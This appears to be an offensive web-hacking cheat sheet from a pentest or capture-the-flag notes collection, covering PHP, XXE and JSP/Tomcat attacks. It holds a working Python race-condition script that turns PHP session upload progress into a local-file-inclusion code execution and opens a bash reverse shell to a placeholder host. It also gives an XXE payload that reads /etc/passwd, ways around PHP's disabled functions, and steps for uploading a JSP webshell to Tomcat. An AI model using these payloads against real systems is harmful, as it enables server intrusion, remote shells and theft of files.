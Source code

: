 ### PHP
- Bypass `system`
	- `echo passthru("whoami")`
	- `echo shell_exec("whoami")` 
	- `echo exec("whoami")`
- Check disable function
    - `phpinfo();`
    - `<?php var_dump(ini_get('disable_functions'));`
- Bypass Disable Function
    - https://github.com/l3m0n/Bypass_Disable_functions_Shell/blob/master/shell.php
- Wrapper
	- `php://filter/convert.base64-encode/resource=meow.php`
- Default Session Path
    - `/var/lib/php/sessions/sess_{sess_name}`
- LFI PHP_SESSION_UPLOAD_PROGRESS (From Splitline)
    ```python
    import grequests
    sess_name = 'meowmeow'
    sess_path = f'/var/lib/php/sessions/sess_{sess_name}'
    # sess_path = f'/var/lib/php/session/sess_{sess_name}'
    # sess_path = f'/tmp/sess_{sess_name}'
    base_url = 'http://{target-domain}/{target-path/randylogs.php}'
    param = "file"

    # code = "file_put_contents('/tmp/shell.php','<?php system($_GET[a])');"
    code = '''system("bash -c 'bash -i >& /dev/tcp/{domain}/{port} 0>&1'");'''

    while True:
        req = [grequests.post(base_url,
                              files={'f': "A"*0xffff},
                              data={'PHP_SESSION_UPLOAD_PROGRESS': f"pwned:<?php {code} ?>"},
                              cookies={'PHPSESSID': sess_name}),
               grequests.get(f"{base_url}?{param}={sess_path}")]

        result = grequests.map(req)
        if "pwned" in result[1].text:
            print(result[1].text)
            break
    ```
    - [File extension](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)
- XXE
    ```javascript=
    var xml = '' +
        '<?xml version="1.0" encoding="UTF-8"?>\n' +
        '<!DOCTYPE a [ <!ENTITY b SYSTEM "file:///etc/passwd"> ]>\n' +
        '<root>' +
        '<name>' + "0" + '</name>' +
        '<search>' + "&b;" + '</search>' +
        '</root>';
    ```
### JSP / Tomcat
- Webshell
    - https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/jsp/cmd.jsp
        - `jar -cvf cmd.war cmd.jsp` and upload to Tomcat admin
- Brute force